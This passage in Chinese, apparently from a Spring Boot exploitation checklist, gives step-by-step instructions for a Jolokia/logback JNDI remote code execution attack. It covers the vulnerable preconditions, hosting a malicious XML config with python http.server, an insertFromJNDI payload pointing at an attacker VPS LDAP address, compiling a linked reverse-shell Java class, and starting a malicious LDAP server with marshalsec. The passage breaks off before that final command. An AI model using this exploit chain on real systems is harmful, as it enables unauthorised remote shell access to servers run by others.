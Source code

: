 

### 0x04：jolokia logback JNDI RCE

#### 利用条件：

- 目标网站存在 `/jolokia` 或 `/actuator/jolokia` 接口
- 目标使用了 `jolokia-core` 依赖（版本要求暂未知）并且环境中存在相关 MBean
- 目标可以请求攻击者的 HTTP 服务器（请求可出外网）

- JNDI 注入受目标 JDK 版本影响，jdk < 6u201/7u191/8u182/11.0.1（LDAP 方式）



#### 利用方法：

##### 步骤一：查看已存在的 MBeans

访问 `/jolokia/list` 接口，查看是否存在 `ch.qos.logback.classic.jmx.JMXConfigurator` 和 `reloadByURL` 关键词。



##### 步骤二：托管 xml 文件

在自己控制的 vps 机器上开启一个简单 HTTP 服务器，端口尽量使用常见 HTTP 服务端口（80、443）

```bash
# 使用 python 快速开启 http server

python2 -m SimpleHTTPServer 80
python3 -m http.server 80
```



在根目录放置以 `xml` 结尾的 `example.xml`  文件，内容如下：

```xml
<configuration>
  <insertFromJNDI env-entry-name="ldap://your-vps-ip:1389/JNDIObject" as="appName" />
</configuration>
```



##### 步骤三：准备要执行的 Java 代码

编写优化过后的用来反弹 shell 的 [Java 示例代码](https://raw.githubusercontent.com/LandGrey/SpringBootVulExploit/master/codebase/JNDIObject.java)  `JNDIObject.java`，

使用兼容低版本 jdk 的方式编译：

```bash
javac -source 1.5 -target 1.5 JNDIObject.java
```

然后将生成的 `JNDIObject.class` 文件拷贝到 **步骤二** 中的网站根目录。



##### 步骤四：架设恶意 ldap 服务

下载 [marshalsec](https://github.com/mbechler/marshalsec) ，使用下面命令架设对应的 ldap 服务：
